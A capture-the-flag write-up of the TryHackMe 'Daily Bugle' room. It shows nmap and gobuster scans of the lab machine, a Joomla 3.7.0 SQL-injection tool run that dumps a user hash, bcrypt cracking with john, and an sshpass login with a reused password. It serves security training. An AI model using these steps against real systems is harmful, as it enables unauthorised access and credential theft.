

# TryHackMe(THM) - Daily Bugle - WriteUp

> Austin Lai | August 8th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Daily Bugle](https://tryhackme.com/room/dailybugle)

Difficulty: **HARD**

However, I rate it as quite easy.

The room is completed on June 8th, 2020

```text
Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

Deploy the machine - it may take up to 2 minutes to configure
```

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Daily Bugle - WriteUp](#tryhackmethm---daily-bugle---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Task 2](#task-2)

<!-- /TOC -->

---

## Task 1

_Access the web server, who robbed the bank?_

## Task 2

_What is the Joomla version?_

*Instead of using SQLMap, why not use a python script!*

_What is Jonah's cracked password?_

_What is the user flag?_

_What is the root flag?_

---

## Let's Begin Here !!!

Let's fire up basic enumeration.

Nmap result:

```text
# Nmap 7.80 scan initiated Mon Jun 08 21:15:21 2020 as: nmap --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 50 --min-rate 1000 --script=vuln --script-trace --reason --append-output -oN TryHackMe-DailyBungle-initial 10.10.183.59
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Warning: 10.10.183.59 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.183.59
Host is up, received user-set (0.39s latency).
Scanned at 2020-06-08 21:16:01 Malay Peninsula Standard Time for 457s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:openbsd:openssh:7.4: 
|     	CVE-2018-15919	5.0	https://vulners.com/cve/CVE-2018-15919
|_    	CVE-2017-15906	5.0	https://vulners.com/cve/CVE-2017-15906
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.183.59
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.183.59:80/
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://10.10.183.59:80/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: user-registration
|     Form action: /index.php/component/users/?task=remind.remind&Itemid=101
|     
|     Path: http://10.10.183.59:80/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: login-form
|     Form action: /index.php/component/users/?Itemid=101
|     
|     Path: http://10.10.183.59:80/index.php/2-uncategorised
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://10.10.183.59:80/index.php/component/users/?view=reset&amp;Itemid=101
|     Form id: user-registration
|     Form action: /index.php/component/users/?task=reset.request&Itemid=101
|     
|     Path: http://10.10.183.59:80/index.php/component/users/?view=reset&amp;Itemid=101
|     Form id: login-form
|     Form action: /index.php/component/users/?Itemid=101
|     
|     Path: http://10.10.183.59:80/index.php
|     Form id: login-form
|_    Form action: /index.php
| http-dombased-xss: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.183.59
|   Found the following indications of potential DOM based XSS: 
|     
|     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
|_    Pages: http://10.10.183.59:80/, http://10.10.183.59:80/index.php/2-uncategorised, http://10.10.183.59:80/index.php
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
|   /language/en-GB/en-GB.xml: Joomla version 3.7.0
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-trace: TRACE is enabled
| Headers:
| Date: Mon, 08 Jun 2020 13:17:50 GMT
| Server: Apache/2.4.6 (CentOS) PHP/5.6.40
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| vulners: 
|   cpe:/a:apache:http_server:2.4.6: 
|     	CVE-2017-7679	7.5	https://vulners.com/cve/CVE-2017-7679
|     	CVE-2018-1312	6.8	https://vulners.com/cve/CVE-2018-1312
|     	CVE-2017-15715	6.8	https://vulners.com/cve/CVE-2017-15715
|     	CVE-2014-0226	6.8	https://vulners.com/cve/CVE-2014-0226
|     	CVE-2017-9788	6.4	https://vulners.com/cve/CVE-2017-9788
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2017-9798	5.0	https://vulners.com/cve/CVE-2017-9798
|     	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
|     	CVE-2016-8743	5.0	https://vulners.com/cve/CVE-2016-8743
|     	CVE-2016-2161	5.0	https://vulners.com/cve/CVE-2016-2161
|     	CVE-2016-0736	5.0	https://vulners.com/cve/CVE-2016-0736
|     	CVE-2014-3523	5.0	https://vulners.com/cve/CVE-2014-3523
|     	CVE-2014-0231	5.0	https://vulners.com/cve/CVE-2014-0231
|     	CVE-2014-0098	5.0	https://vulners.com/cve/CVE-2014-0098
|     	CVE-2013-6438	5.0	https://vulners.com/cve/CVE-2013-6438
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2016-4975	4.3	https://vulners.com/cve/CVE-2016-4975
|     	CVE-2015-3185	4.3	https://vulners.com/cve/CVE-2015-3185
|     	CVE-2014-8109	4.3	https://vulners.com/cve/CVE-2014-8109
|     	CVE-2014-0118	4.3	https://vulners.com/cve/CVE-2014-0118
|     	CVE-2014-0117	4.3	https://vulners.com/cve/CVE-2014-0117
|     	CVE-2013-4352	4.3	https://vulners.com/cve/CVE-2013-4352
|     	CVE-2018-1283	3.5	https://vulners.com/cve/CVE-2018-1283
|_    	CVE-2016-8612	3.3	https://vulners.com/cve/CVE-2016-8612
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/8%OT=22%CT=1%CU=35906%PV=Y%DS=4%DC=T%G=Y%TM=5EDE3BDA
OS:%P=i686-pc-windows-windows)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=A
OS:)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=RD%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11
OS:NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68D
OS:F%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M50
OS:8NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.027 days (since Mon Jun 08 20:45:20 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 5/tcp)
HOP RTT       ADDRESS
1   157.00 ms 10.4.0.1
2   ... 3
4   410.00 ms 10.10.183.59

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 08 21:23:38 2020 -- 1 IP address (1 host up) scanned in 497.51 seconds
```

Gobuster result:

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.183.59
[+] Threads:        20
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/08 15:19:21 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2020/06/08 15:27:27 Finished
===============================================================
```

As nmap result show it is using Joomla, let have a quick check on searchsploit:

```text
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                          | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                           | php/webapps/42033.txt
```

Daily Bugle Main Page:


Check on the source:


Daily Bugle Login Page:


Daily Bugle Forgot Username Page:


Daily Bugle Forgot Password Page:


We done most of the enum, let check out some of the page we found by gobuster. Only the admin page return.

Joomla Admin Page:


Since we found some exploit available from searchsploit. Let try it out.

```bash
python joomblah.py http://10.10.183.59/


    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', '----', '----@tryhackme.com', '--------------------Mw.V.d3p12--------', '', '']
  -  Extracting sessions from fb9j5_session
```

Seem like we found the user and some hashes, let check what is the hash:

```bash
hashid -e -j -m -o initial_hash_hashid2initial_hash_bcrypt_hashid "\$----JSFh4389Ll--------F.bZhz0jVMw.V.d3----"

Analyzing '------------luc4Xya.dfy2----------------'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200][JtR Format: bcrypt]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200][JtR Format: bcrypt]
```

Now we know the type of hash, let crack it.

```bash
john --wordlist=/root/rockyou.txt --format=bcrypt initial_hash

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
----------    (?)
1g 0:00:13:25 DONE (2020-06-08 22:05) 0.001240g/s 58.10p/s 58.10c/s 58.10C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed


root@kali-2020:/austin# john --show --format=bcrypt initial_hash
?:------------

1 password hash cracked, 0 left
```

Now we can login to Joomla !


As you see here, joomla using PHP 5.6, whicha mean it is possible for us to get reverse shell.

Let do some research and google it for Joomla PHP Reverse Shell !

Once you get reverse shell.



As we do not have the permission to view the "jjameson" directories.


Let's enum and see what we can find.

As we know this is web server, let check out /var/www/html


There is one particular file we are interested --- configuration php


Although, it mentioned root there, however we are not able to login with root via ssh. Hence it's for jjameson !

Let's create a connect script

```bash
#!/bin/bash

sshpass -vp '-------' ssh -p 22 jjameson@10.10.183.59 -o StrictHostKeyChecking=no
```

Now we have the SSH access, user flag is right there !


Time for us to get PrivEsc and Root !

Simple and basic enum will do, common sudo !


A simple research or Google you will find the way to get root.


Now there, you have the root flag !!!

<br />

---

> The room was completed long ago when I was just started fresh in TryHackMe platform, some technique can be improved ! Let's have fun !

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


